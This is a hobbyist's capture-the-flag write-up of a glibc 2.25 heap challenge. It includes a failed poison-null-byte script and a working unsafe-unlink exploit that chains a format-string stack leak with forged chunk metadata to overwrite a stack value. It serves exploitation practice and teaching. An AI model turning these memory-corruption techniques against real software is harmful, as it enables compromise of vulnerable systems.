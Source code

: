 Alright so I started this challenge after the CTF was over. I saw that this was a heap challenge and decided that I needed more practice with the heap so I was like why not. 

The program is actually just a poison null byte challenge on glibc 2.25 so there are quite a bit of exploits I could do here. Also we don't need a shell, just overwrite a value in the stack to become `0xcafebabe`. When I first started I thought to myself to do the google poison null byte technique and then when unlinking I would be able to write the stack address (since there is a printf leak) to the array with all of the chunk pointers and then call the `edit()` function with it.

Sadly, this did not work well since when I tried to unlink it would just write the `main_arena` address into the chunk pointers array instead. I tried to go around this for quite a while but no cigar. I then rewatched the HeapLab unsafe unlinking video and thought to myself "oh, this is so much simpler than I thought" and recided to restart the script. Anyways here is the failed attempt:

```python
# google poison null byte
create(io, 0x18) # 0
create(io, 0x208) # 1
create(io, 0x88) # 2 
create(io, 0x18) # 3 (stops top chunk consolidation)
    
delete(io, 1)
edit(io, 0, b"A"*0x20) # poison null byte

# remaindered chunks
create(io, 0xf8) # 4
create(io, 0xf8) # 5
     
# create consolidation + overlap
strings_arr_target = 0x204dd0
    
# program uses strcpy lol
# overwrite fd and bk
edit(io, 4, b"A"*10 + p64(strings_arr_target))
edit(io, 4, b"A"*9 + p64(strings_arr_target))
edit(io, 4, b"A"*8 + p64(strings_arr_target))
edit(io, 4, b"AAAA" + p64(strings_arr_target + 8))
edit(io, 4, b"AAA" + p64(strings_arr_target + 8))
edit(io, 4, b"AA" + p64(strings_arr_target + 8))
edit(io, 4, b"A" + p64(strings_arr_target + 8))
edit(io, 4, p64(strings_arr_target + 8))

delete(io, 2)
    
     
# set pointers to a chunk that is in use
create(io, 0xf8) # 6

# chunk 5 has control over fd and bk pointers now
# stack leak at $15%p - (0xd918 - 0xd828)
edit(io, 0, b"%15$p")
target = int(view(io, 0), 16) - (0xd918 - 0xd828)
main_arena = int.from_bytes(view(io, 5)[:-6], "little")
strings_arr_target = 0x204dd0

# program uses strcpy lol
# overwrite fd and bk
edit(io, 5, b"A"*10 + p64(strings_arr_target - 8))
edit(io, 5, b"A"*9 + p64(strings_arr_target - 8))
edit(io, 5, b"A"*8 + p64(strings_arr_target - 8))
edit(io, 5, b"AAAA" + p64(strings_arr_target + 8))
edit(io, 5, b"AAA" + p64(strings_arr_target + 8))
edit(io, 5, b"AA" + p64(strings_arr_target + 8))
edit(io, 5, b"A" + p64(strings_arr_target + 8))
edit(io, 5, p64(strings_arr_target + 8))

create(io, 0x198) # 7
```

And here is the actual solution. After I realised what I could of done I thugged it out in legit 30-45 min. It's literally as shrimple as that.

```python
# unsafe unlink (it is literally that shrimple)
create(io, 0x38) # 0
create(io, 0xf8) # 1
create(io, 0x18) # 2 stops top chunk consolidation

# stack leak at $15%p - (0xd918 - 0xd828)
edit(io, 0, b"%15$p")
key = int(view(io, 0), 16) - (0xd918 - 0xd828)
    
# change prev_inuse flag
edit(io, 0, b"A" * 0x40)
    
# fake prev_size
for i in range(7):
    edit(io, 0, b"A"*(0x36 - i) + b"\x30\x00")

# create fake fd and bk
target = 0x204db0
for i in range(5):
    edit(io, 0, b"A"*(0x1c - i) + p64(target))

for i in range(5):
    edit(io, 0, b"A"*(0x14 - i) + p64(target - 8))
    
# fake size field
for i in range(7):
    edit(io, 0, b"A"*(0xe - i) + b"\x30\x00")

# consolidate
delete(io, 1)

# write key to strings and edit it
edit(io, 0, b"A"*0x18 + p64(key))
edit(io, 0, p64(0xcafebabe))

# get flag
sl(io, b"5")
```

It was literally so shrimple. I really gotta stop overthinking these challenges man. Heap practice makes perfect though plus I reinforced a lot of different heap techniques.

Challenge binary and solve script are in the `bin` directory.

+rep????
